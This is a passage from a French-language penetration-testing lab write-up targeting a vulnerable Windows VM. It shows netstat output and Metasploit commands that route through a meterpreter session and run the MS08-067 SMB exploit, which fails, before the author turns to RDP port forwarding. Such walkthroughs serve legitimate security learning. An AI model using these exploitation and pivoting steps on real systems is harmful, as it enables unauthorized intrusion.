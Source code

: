 ```plain
    tcp    127.0.0.1:1072     127.0.0.1:445     TIME_WAIT    0     0      0/[System Process]
    udp    0.0.0.0:500        0.0.0.0:*                      0     0      484/lsass.exe
    udp    0.0.0.0:4500       0.0.0.0:*                      0     0      484/lsass.exe
    udp    0.0.0.0:3456       0.0.0.0:*                      0     0      1580/inetinfo.exe
    udp    0.0.0.0:445        0.0.0.0:*                      0     0      4/System
    udp    127.0.0.1:123      0.0.0.0:*                      0     0      772/svchost.exe
    udp    192.168.1.11:137   0.0.0.0:*                      0     0      4/System
    udp    192.168.1.11:123   0.0.0.0:*                      0     0      772/svchost.exe
    udp    192.168.1.11:138   0.0.0.0:*                      0     0      4/System
```

Come get some
-------------

Essayons de mettre en place une route depuis *Metasploit* afin de pouvoir lancer un exploit SMB sur la port 445 local :  

```plain
msf exploit(handler) > route add 127.0.0.1 255.255.255.0 2
[*] Route added
msf exploit(handler) > connect 127.0.0.1 445
[*] Connected to 127.0.0.1:445
^Cmsf exploit(handler) >
```

La redirection fonctionne :)  

```plain
msf exploit(handler) > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 127.0.0.1:9999 via the meterpreter on session 2
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 2+ - lang:English
[-] Could not determine the exact service pack
[*] Auto-targeting failed, use 'show targets' to manually select one
```

et si on fixe la target :  

```plain
[*] Started reverse handler on 127.0.0.1:9999 via the meterpreter on session 2
[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
```

Bon, plusieurs possibilités : soit je fais quelque chose mal, soit l'ISO que j'ai est patché contre cette attaque, soit le *VulnInjector* a pris soin de patcher la faille d'une manière ou d'une autre...  

Kansas City Shuffle
-------------------

On va plutôt créer une redirection de port vers le service *TSE* (port 3389) et voir ce qu'on peut en faire :
